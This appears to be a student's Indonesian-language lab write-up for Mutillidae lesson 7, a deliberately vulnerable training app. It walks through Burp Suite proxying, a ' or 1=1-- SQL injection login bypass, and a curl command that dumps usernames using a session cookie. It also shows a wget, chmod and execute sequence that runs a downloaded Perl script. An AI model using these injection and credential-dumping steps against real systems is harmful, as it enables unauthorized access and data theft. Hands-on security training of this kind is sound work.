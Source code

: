 Lesson 7
--------
- **Step 1**    : Setting networks pada mozilla yang ada di Kali Linux dengan mengisi manual proxy dan diisi HHTP Proxy `127.0.0.1` dan port `8080`
- **Step 2**    : Buka aplikasi burpsuite yang sudah ada di Kali, lalu setting `intercept is off` pada tab proxy lalu tab intercept
- **Step 3**    : Lalu klik Login pada mutillidae, lalu ketik `' or 1=1--` dan jangan lupa tambahkan spasi setelah `--` dan login
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%207/1.JPG)
- Lalu akan muncul hasilnya seperti pada gambar dibawah
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%207/2.JPG)
- **Step 4**    : Lalu buka aplikasi burpsuite, pada tab proxy, lalu HTTP history, buka pada host yang terdapat method get yang baru saja kita lakukan pada mutillidae
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%207/3.JPG)
- **Step 5**    : Lalu ketik `curl -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+or+1%3D1--+&password=&user-info-php-submit-button=View+Account+Details" --location "192.168.100.22/mutillidae/index.php" --cookie PHPSESSID=13c43bde4b32699c9a96034fc9e26134 | grep -i "Username=" > lesson7.txt` lalu ketik `cat lesson7.txt`
- Lalu akan muncul hasilnya seperti gambar berikut
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%207/4.JPG)
- **Step 6**    : Lalu ketik `wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson7/lesson7.pl.TXT` lalu `mv lesson7.pl.TXT lesson7.pl` lalu `chmod 700 lesson7.pl` lalu `./lesson7.pl` dan akan muncul hasilnya seperti berikut
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%207/6.JPG)
